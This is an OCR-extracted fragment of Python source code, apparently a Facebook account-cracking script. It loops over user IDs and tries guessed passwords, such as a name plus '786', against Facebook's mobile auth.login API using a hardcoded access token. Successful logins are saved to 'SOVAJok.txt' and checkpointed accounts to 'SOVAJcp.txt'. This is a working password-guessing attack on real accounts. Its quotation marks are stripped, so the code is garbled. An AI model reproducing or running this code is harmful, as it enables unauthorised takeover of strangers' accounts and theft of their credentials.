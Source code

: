  

		                    else:

 

		                        if access_token in d:

 

		                            print(\x1b[1;97m[SOVAJ = OK] +uid+ = +pass3+\x1b[1;0m)

 

		                            ok=open(SOVAJok.txt,a)

 

		                            ok.write(uid+ = +pass3+\n)

 

		                            ok.close()

 

		                            oks.append(uid)

 

		                        else:

 

		                            pass4=name+786

 

		                            q = requests.get(https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email= + uid + &locale=vi_vn&password= + pass4 + &sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c, headers=header).text

 

		                            d=json.loads(q)

 

		                            if www.facebook.com in d[error_msg]:

 

		                                print(\033[1;93m[PR4SH4N7>CP] +uid+ = +pass4)

 

		                                cp=open(SOVAJcp.txt,a)

 

		                                cp.write(uid+ = +pass4+\n)

 

		                                cp.close()

 

		                                cps.append(uid)

 

		                            else:

 
